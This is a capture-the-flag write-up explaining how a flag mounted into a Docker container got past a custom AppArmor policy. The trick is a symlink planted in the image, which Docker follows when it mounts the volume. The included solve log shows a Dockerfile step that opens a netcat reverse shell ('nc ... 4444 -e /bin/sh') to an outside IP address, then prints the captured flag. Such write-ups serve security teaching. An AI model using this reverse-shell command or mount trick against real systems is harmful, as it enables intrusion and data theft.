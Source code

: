 In this CTF challenge, there was a custom AppArmor policy applied to the run containers, such that it disallowed reads/writes to `/flag-*` paths.

We, as a user, could only provide a docker image that was built and run later on, and the flag (which we wanted to steal) was mounted as a volume into the run container with a `docker run -v /flag.txt:/flag-XXYY ...` invocation. The `XXYY` part was random.

### Solution

The solver is in `./solve.sh`. When running for first time, you need to:
* update the (referenced) docker image name in `build.sh` and the `<<YOURIP>>` part
* login to gitlab docker registry (`docker login`) and share your project with `dragonsectorclient` (that's how you shared the docker image with the challenge, and the challenge pulled and run it later on)

The *bug* here is that AppArmor denies read/write/etc to `/flag-*` but this limitation is enforced during container run time **but not during its build time AND that Docker will follow symlinks present in the image when mounting files with `docker run -v /hostpath:/containerpath ...`**.

So it turns out that when the `docker run -v something:somepath ...` is invoked, the `somepath` follows links and we can make a link from `/flag-XXYY` to `/D` in our image. In the end, the `docker run -v /flag.txt:/flag-XXYY ...` will mount `flag.txt` into `/D` which we can read.

```
dc@jhtc:~/dsctf/x/task/ds-apparmor-task/solution$ ./solve.sh
mkdir: cannot create directory ‘rootfs’: File exists
Sending build context to Docker daemon  33.56MB
Step 1/4 : FROM ubuntu
 ---> d70eaf7277ea
Step 2/4 : RUN apt update && apt install -y netcat-traditional
 ---> Using cache
 ---> 40ac85e97bbe
Step 3/4 : ADD rootfs /
 ---> Using cache
 ---> 17f203a1ee6a
Step 4/4 : CMD nc 51.38.138.162 4444 -e /bin/sh
 ---> Using cache
 ---> 422aece7a145
Successfully built 422aece7a145
Successfully tagged registry.gitlab.com/mytempaccount123/test:latest
The push refers to repository [registry.gitlab.com/mytempaccount123/test]
3c45abc528a8: Layer already exists
be0923227e77: Layer already exists
cc9d18e90faa: Layer already exists
0c2689e3f920: Layer already exists
47dde53750b4: Layer already exists
latest: digest: sha256:fda92fc789dbfde33799502d18e30e8f3b2d184d9942ea1e6c5ff75f7003ffd5 size: 1365
[+] Opening connection to apparmor2.hackable.software on port 1337: Done
Executing b'hashcash -mb26 udqynihh'
out b'1:26:201121:udqynihh::i6HwB+Gk4OttOKvq:000000005+DgO\n'
b'Image added to the queue\n'
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 156.95.107.34.bc.googleusercontent.com 56178 received!
DrgnS{4e77cd33ffb0c7802b39303f7452fd90}
```
